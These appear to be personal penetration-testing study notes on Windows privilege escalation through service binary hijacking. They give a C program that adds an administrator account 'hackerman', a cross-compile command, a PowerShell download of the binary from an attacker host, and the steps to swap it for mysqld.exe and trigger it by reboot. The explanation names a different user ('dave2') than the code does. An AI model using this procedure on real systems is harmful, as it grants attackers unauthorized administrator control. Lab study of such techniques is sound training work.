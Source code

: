 Enumerate Services
	PS `Get-Service -name "<service>`
		enumerates state of service
	PS `Start-Service <service>
		starts service
	PS `Stop-Service <service>`
		stops service


```
#NOTE: Exploit v2 is much faster usually
```

###### Exploit v1 (Adding a user admin)
Create a malicious binary to replace mysqld.exe
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user hackerman password123! /add");
  i = system ("net localgroup administrators hackerman /add");
  
  return 0;
}
```
adduser.c code
	explanation
	this adds a user dave2 and adds him the the administrators group

Compile
	`x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`
		cross-compile to a 64 bit application

Transfer and replace binary
```
PS C:\Users\dave> iwr -uri http://192.168.48.3/adduser.exe -Outfile adduser.exe  

PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

Stop service
	We need to restart the service before executing our malicious binary
	`net stop mysql`
		insuficient permissions
	If startup type is "Automatic" we can restart the machine to reboot it
	Enumerating Startup Type
		`Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<service_name>'}
		Auto
		perfect
	We need SeShutdownPrivilege to reboot
		`whoami /priv`
		we have it
		Disabled just means if the privilege is currently enabled for the running process
